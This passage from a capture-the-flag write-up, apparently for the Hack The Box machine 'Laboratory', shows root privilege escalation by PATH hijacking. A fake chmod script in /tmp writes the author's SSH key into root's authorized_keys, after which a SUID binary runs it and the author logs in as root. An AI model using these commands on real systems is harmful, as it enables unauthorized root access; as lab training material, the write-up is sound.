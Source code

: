 Looking at the trace, binary is calling `system("chmod 700 /usr/bin/docker")`. Now the interesting thing to notice is that `chmod` is not called from it's absolute path which should be `/usr/bin/chmod`

```shell
dexter@laboratory:~$ which chmod
/usr/bin/chmod
```

Current path :

```shell
dexter@laboratory:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

So we can forge `chmod` of our own, update the path and confuse the application execute our `chmod`

I'll create a ssh key using `ssh-keygen -f cfx`:

```shell
dexter@laboratory:/tmp$ cat chmod
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFJ4KUY9Dzy4UKYRwT+ORSIGW1W2YSKQrqIlNfRksWqWOz3bCJCE5gImrgx/lsL/kItrEvy9js4nQ1zmUrJ6kSYU7[..SNIP..]Rws4b8UeKpU+ft6Uk root@cfx" > /root/.ssh/authorized_keys

dexter@laboratory:/tmp$ chmod +x chmod
dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
```

Updated PATH:

```shell
dexter@laboratory:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

Here the first path is `/tmp` so next time when we run the binary it will first go inside `/tmp`, fetch and run our malicious `chmod`:

```
dexter@laboratory:/tmp$ /usr/local/bin/docker-security
```

This should have successfully copied our public ssh key to `/root/.ssh/authorized_keys` as a result we can SSH as root with out private key:

### SSH - root

```shell
cfx:  ~/Documents/htb/docker
→ ssh -i cfx root@10.10.10.216
root@laboratory:~# id
uid=0(root) gid=0(root) groups=0(root)
root@laboratory:~# whoami
root
```

Grabbing `root.txt`:

```shell
root@laboratory:~# cat root.txt
0bc02b1afb2b28******************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
